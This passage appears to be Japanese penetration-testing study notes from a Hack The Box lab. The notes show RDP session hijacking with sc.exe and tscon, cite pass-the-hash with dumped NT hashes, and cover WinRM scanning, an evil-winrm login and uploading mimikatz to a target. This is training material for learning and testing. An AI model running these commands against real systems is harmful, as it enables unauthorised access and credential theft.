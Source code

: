 例
```sh
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

**セッションの乗っ取り -実行**
実際に乗っ取るには、`sessionhijack`を実行する
```sh
C:\htb> net start sessionhijack
```

#### PtH攻撃
[[Windows Local Password Attack]]の"横展開"の"PtH(Pass the Hash)"の"RDPでハッシュを渡す"に記載
**前提**
- SAMデータベースなどからの認証情報ダンプ攻撃で得たユーザーのNTハッシュを所持している
	- ハッシュから平文のパスワードを解読できない



## WinRM
- ポート5985と5986を使用、デフォルトだと
- ポート47001が使われていることもよくあるそう
- コマンドラインに基づくシンプルなWindows統合リモート管理プロトコル
- WinRMは、Simple Object Access Protocol（`SOAP`）を使用して、リモートホストとそのアプリケーションへの接続を確立する
- Windows 10 から WinRM を明示的に有効にして設定する必要がある
### 情報収集(コマンド)
Nmapでのスキャン
```shell-session
nmap -sV -sC 10.129.201.248 -p5985,5986 --disable-arp-ping -n
```

Linuxベースの環境では、WinRMと対話するために設計された別の侵入テストツールである[evil-winrm](https://github.com/Hackplayers/evil-winrm)と呼ばれるツールを使用できる
```shell-session
evil-winrm -i 10.129.201.248 -u Cry0l1t3 -p P455w0rD!
```

### Evil-WinRM
uploadの後に、攻撃元のファイルパスを指定すると送ることができる
```sh
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload /home/snowyowl644/mimikatz-master/x64/mimikatz.exe
                                        
Info: Uploading /home/snowyowl644/mimikatz-master/x64/mimikatz.exe to C:\Users\Administrator\Documents\mimikatz.exe
                                        
Data: 1666740 bytes of 1666740 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```
